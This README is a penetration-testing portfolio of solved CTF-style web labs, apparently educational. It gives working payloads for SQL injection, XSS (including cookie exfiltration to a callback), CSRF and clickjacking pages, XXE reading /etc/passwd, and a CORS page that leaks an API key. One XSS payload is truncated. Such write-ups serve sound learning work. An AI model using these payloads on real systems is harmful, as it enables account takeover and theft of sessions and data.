<div align="center">

# 🛡️ Web Security Labs
### Penetration Testing Portfolio


A collection of solved CTF-style penetration testing labs covering common web vulnerabilities.  

</div>

---

## 📋 Table of Contents

- [SQL Injection](#-sql-injection)
- [Cross-Site Scripting (XSS)](#-cross-site-scripting-xss)
- [Cross-Site Request Forgery (CSRF)](#-cross-site-request-forgery-csrf)
- [Clickjacking](#-clickjacking)
- [Broken Authentication](#-broken-authentication)
- [XML External Entity (XXE)](#-xml-external-entity-xxe)
- [CORS Misconfiguration](#-cors-misconfiguration)
- [Broken Access Control](#-broken-access-control)
- [Tools Used](#-tools-used)

---

## 🔧 Tools Used

| Tool | Purpose |
|------|---------|
| **Burp Suite** | Intercepting & modifying HTTP requests, Intruder for brute-force and enumeration |
| **sqlmap** | Automated SQL injection detection and exploitation |
| **Collaborator** | Receiving out-of-band callbacks for Blind SQLi, XXE, and XSS exfiltration (in app webhook) |
| **CSRFShark** | Generating CSRF proof-of-concept HTML pages |
| **Browser DevTools** | DOM inspection, cookie editing, network request analysis |


---

## 💉 SQL Injection

### 1. Extracting Hidden Data

The application passed a `category` parameter directly into a SQL query without sanitization. By injecting a comment sequence, I bypassed the `released = 1` filter and retrieved all products from the database — including hidden ones containing the flag.

**Payload:**
```sql
' OR 1=1--
```

Full URL:
```
/filter?category=Gifts' OR 1=1--
```

The injected `OR 1=1` always evaluates to true, returning every row. The `--` comments out the rest of the original query.



---

### 2. Login Bypass

The login form was vulnerable to SQL injection in the `username` field. Injecting a comment after the administrator username caused the database to skip password verification entirely.

**Payloads:**
```
username: ' OR 1=1--        → logs in as the first user in the database
username: administrator'--  → logs in directly as admin
password: (anything)
```

The resulting query becomes:
```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = '...'
```

The `AND password = '...'` condition is commented out, granting admin access without a valid password.



---

### 3. Blind SQL Injection — Oracle Database (Out-of-Band)

This lab involved a blind SQL injection where no data was returned in the HTTP response. I used an out-of-band technique — crafting a payload that triggers a DNS/HTTP lookup to a Burp Collaborator server, confirming the injection point exists.

**Payload (URL-encoded):**
```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % remote SYSTEM "http://<COLLABORATOR_HOST>/">
%remote;]>'),'/l')+FROM+dual--
```

The Oracle `EXTRACTVALUE` + `xmltype` trick forces an HTTP request to my Collaborator server. Receiving that callback confirms blind injection is possible on the `TrackingId` cookie.



---

### 4. SQL Injection with sqlmap

This injection point was exploitable but complex enough to use **sqlmap** for automation. I pointed it at the vulnerable parameter and let it enumerate the database automatically.

```bash
sqlmap -u "https://TARGET/filter?category=*" --dbs --dump
```

sqlmap identified the injection type, enumerated databases, and extracted the flag from the target table.




---

## 🖥️ Cross-Site Scripting (XSS)

### 5. Reflected XSS — HTML Context Without Encoding

The search field reflected user input directly into the HTML response without any output encoding. Submitting a script tag caused immediate execution in the browser — classic reflected XSS.

**Payload:**
```html
<script>alert(1)</script>
```

No filters, no encoding — the script tag was written raw into the page and executed.



---

### 6. DOM XSS — `document.write` Sink via `location.search`

The application read a value from `location.search` (the URL query string) and passed it directly to `document.write()`. This is a client-side DOM sink — no server is involved, making traditional input filtering ineffective.

**Payload injected in URL:**
```
?search=">
```

The value from the URL was written raw into the DOM via `document.write`, triggering the `onerror` handler without ever reaching the server.



---

### 7. XSS — Session Cookie Theft

A stored or reflected XSS injection allowed me to run arbitrary JavaScript in the context of an admin's session. I injected a payload that used `fetch` to exfiltrate the session cookie to an external Burp Collaborator callback.

**Payload:**
```html
<script>
  fetch('/collaborator/callback/' + document.cookie);
</script>
```

When the admin loaded the page containing the payload, their browser automatically fired the request — leaking `session=<token>` in the URL. I then imported that cookie in my own browser to hijack their session.




---

## 🔄 Cross-Site Request Forgery (CSRF)

### 8. No CSRF Protection

The email-change endpoint accepted POST requests with no CSRF token whatsoever. I hosted a malicious HTML page that auto-submitted a form to the target endpoint the moment a logged-in victim visited it — changing their email silently.

**Attack page:**
```html
<!DOCTYPE html>
<html>
  <body>
    <form id="hacker-form"
          action="https://TARGET/my-account/change-email"
          method="POST">
      <input type="hidden" name="email" value="hacker@hacker.com">
    </form>
    <script>
      document.getElementById("hacker-form").submit();
    </script>
  </body>
</html>
```

The victim's browser sends the request with their active session cookie — no interaction required beyond visiting the page.



---

### 9. CSRF Token Not Tied to Session

The application issued CSRF tokens but never verified they belonged to the current session — only that a valid token existed somewhere in the system. I grabbed a CSRF token from my own account and reused it in a forged request targeting a different user.

**Steps:**
1. Log in to my account and note the CSRF token value
2. Place that token into the attack form targeting the victim
3. The server accepted it — the token was valid globally, not per-session

**Attack form excerpt:**
```html
<input type="hidden" name="csrf" value="8c66c0eca1294f47addecce978e5ef65">
<input type="hidden" name="email" value="attacker@example.com">
```



---

### 10. CSRF — Bypassing Referer Header Validation

Instead of a CSRF token, this application validated the `Referer` header to ensure requests came from the target domain. I bypassed this by using `history.pushState` to manipulate the browser's URL (and thus the Referer) before submitting the form.

**Attack page:**
```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta name="referrer" content="unsafe-url">
</head>
<body>
  <form id="csrf-form" method="POST"
        action="https://TARGET/my-account/change-email">
    <input type="hidden" name="email" value="admin_hacked@hacker.com">
  </form>
  <script>
    history.pushState("", "", "/?TARGET_DOMAIN");
    document.getElementById("csrf-form").submit();
  </script>
</body>
</html>
```

`history.pushState` changes the page URL without navigating, causing the browser to send a `Referer` header that contains the target domain. The server's validation passed.

---

### 11. CSRF — Token Extracted via Same-Origin XSS

The application had a proper CSRF token, but also had a reflected XSS vulnerability on the same origin. I used the XSS to fetch the victim's page, extract their CSRF token from the DOM, and then submit the forged request with the valid token.

**Steps:**
1. Identify a reflected XSS on the target domain
2. Inject JavaScript that fetches `/my-account`, parses the CSRF token from the response
3. Use that token immediately in a same-origin form submission

I used **CSRFShark** to generate the base PoC, then added auto-submission:

```html
<script>
  document.getElementById("csrf-form").submit();
</script>
```

---

## 🖼️ Clickjacking

### 12. Basic Clickjacking — CSRF-Protected Page

The page was protected against CSRF via tokens, but had no `X-Frame-Options` or `Content-Security-Policy: frame-ancestors` header. I overlaid a transparent iframe of the target page over a fake "Click me" button — the victim clicks what they think is an innocent button, but is actually clicking the hidden "Confirm" button inside the iframe.

**Attack page:**
```html
<style>
  #target_website {
    position: relative;
    width: 700px; height: 800px;
    opacity: 0.0001;
    z-index: 2; border: none;
  }
  #decoy_website {
    position: absolute;
    top: 360px; left: 140px;
    z-index: 1;
  }
</style>
<div id="decoy_website">Click me</div>
<iframe id="target_website"
  sandbox="allow-forms allow-same-origin"
  src="https://TARGET/my-account?email=hacked@hacker.com"
  scrolling="no">
</iframe>
```

The iframe opacity is `0.0001` — visually invisible but fully clickable. The decoy button is pixel-aligned over the real action button inside.



---

### 13. Frame Buster Bypass

This page had a JavaScript frame buster (`if (top !== self) top.location = self.location`) to prevent being embedded in an iframe. I bypassed it using the `sandbox` attribute — sandboxed iframes block script execution by default, so the frame buster script never ran.

**Key technique:**
```html
<iframe sandbox="allow-forms" src="https://TARGET/my-account"></iframe>
```

`allow-forms` permits form submission while `allow-scripts` is omitted, disabling the frame buster without breaking the clickable UI.

---

### 14. DOM XSS via Clickjacking

This lab chained clickjacking with a DOM-based XSS. I pre-filled the target's feedback form with an XSS payload via URL parameters, then overlaid an invisible iframe over a "Click me" button. When the victim clicked, the form was submitted with the payload — which then fetched the admin flag and exfiltrated it to a webhook.

**XSS payload (URL-decoded for readability):**
```javascript
 r.text())
    .then(t => fetch('/exploit/callback/' + encodeURIComponent(t)))
">
```

**Full attack page structure:**
```html
<div class="guzik">Click me</div>
<iframe src="https://TARGET/feedback
  ?name=<XSS_PAYLOAD>
  &email=test@test.com
  &subject=test
  &message=test">
</iframe>
```



---

## 🔑 Broken Authentication

### 15. Broken Password Reset Logic

The password reset flow identified which account to update based solely on the `username` parameter in the POST body — with no binding to the reset token. I intercepted my own reset request in Burp Suite and swapped the username to `administrator`.

**Steps:**
1. Request a password reset for my test account
2. Click the reset link from the email to get a valid reset session
3. Intercept the final password-set POST in Burp
4. Change the `username` field from `wiener` to `administrator`
5. Forward the request — admin password was changed

---

### 16. User Enumeration

The login form responded differently depending on whether the submitted username existed. Valid usernames returned a slightly different response length or message. I used **Burp Suite Intruder** to iterate over a username list and spot the outlier.

**Steps:**
1. Capture the login POST in Burp → send to Intruder
2. Mark `username` as the payload position
3. Load a common username wordlist
4. Run attack → sort results by response length — the valid username stood out
5. Repeat the same process for the password field with the confirmed username



---

### 17. Brute-Force with Multiple Credentials

The account lockout triggered after a fixed number of failures per username. I worked around it by cycling through username:password pairs so no single account hit the threshold.

**Steps:**
1. Intercept login in Burp → send to Intruder
2. Use the *Pitchfork* attack type with a matched credential list
3. Rotate through pairs — each username only gets tested once per round
4. Identify the successful login by a different response length or HTTP 302 redirect

---

### 18. Content Type Confusion — Broken Auth Bypass

The authentication and CSRF checks on the password-change endpoint only ran for `application/x-www-form-urlencoded` requests. Switching `Content-Type` to `application/json` bypassed both checks entirely.

**Modified request in Burp:**
```
Content-Type: application/json

{
  "username": "administrator",
  "password": "newpassword"
}
```

I also included the session cookie and added a `redirect` to `/my-account` to confirm the change was applied.



---

## 📄 XML External Entity (XXE)

### 19. File Reading via XXE

The application accepted XML in the request body (e.g. a stock-check feature). It parsed the XML with external entity resolution enabled — a classic XXE condition. By defining an external entity pointing to a local file, I read `/etc/passwd` from the server.

**Payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

The server resolved `&xxe;` and returned the file contents in the response.



---

## 🌐 CORS Misconfiguration

### 20. Basic Origin Reflection

The server blindly reflected whatever `Origin` header was sent back as `Access-Control-Allow-Origin`, combined with `Access-Control-Allow-Credentials: true`. This allowed a malicious cross-origin page to make authenticated requests and read the full response — including sensitive data like API keys.

**Attack page:**
```html
<script>
  fetch("https://TARGET/accountDetails", {
    credentials: "include"
  })
  .then(response => response.json())
  .then(data => {
    var Key = data.apikey;
    window.location = "https://TARGET/exploit/callback/" + Key;
  });
</script>
```

When a logged-in user visits this page, their browser fires the fetch with their session cookie. The reflected CORS header lets the attacker's origin read the response — exposing the API key.

